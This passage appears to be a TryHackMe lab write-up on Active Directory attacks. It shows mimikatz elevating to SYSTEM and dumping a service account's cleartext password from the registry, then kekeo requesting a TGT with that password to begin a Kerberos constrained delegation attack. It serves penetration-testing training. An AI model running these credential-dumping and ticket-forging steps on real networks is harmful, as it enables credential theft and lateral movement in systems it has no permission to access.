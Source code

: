 <pre>za\t2_robin.wyatt@THMWRK1 C:\Users\t2_robin.wyatt>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM</pre>

`token::elevate`  
Dump the secrets from registry hive, we need to impersonate SYSTEM user

`lsadump::secrets`  
Mimikatz interacts with the registry hive to pull out clear text credentials

<pre>mimikatz # lsadump::secrets</pre>

![Alt text](<../../Images/lsadump secrets.png>)

`Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@zatryhackme.loc`
`cur/text: Password1@`

We now have the password associated with svcISS account (Password1@), we can now perform Kerberos Delegation attack with the combination of Kekeo and Mimikatz.

# Request a TGT and Perform the Attack
If Mimikatz window from before is running, revert ticket:
`token::revert`

<pre>PS C:\Users\t2_robin.wyatt> C:\Tools\kekeo\x64\kekeo.exe</pre>

Generate a TGT that can be used to generate tickets for the `http` and `WSMAN` services
<pre>kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@

> Ticket in file 'TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi`</pre>

`/user` : User who has the constrained delegation permissions - svcIIS  
`/domain` : Domain we are attacking  
`/password` : Password associated with svcIIS account
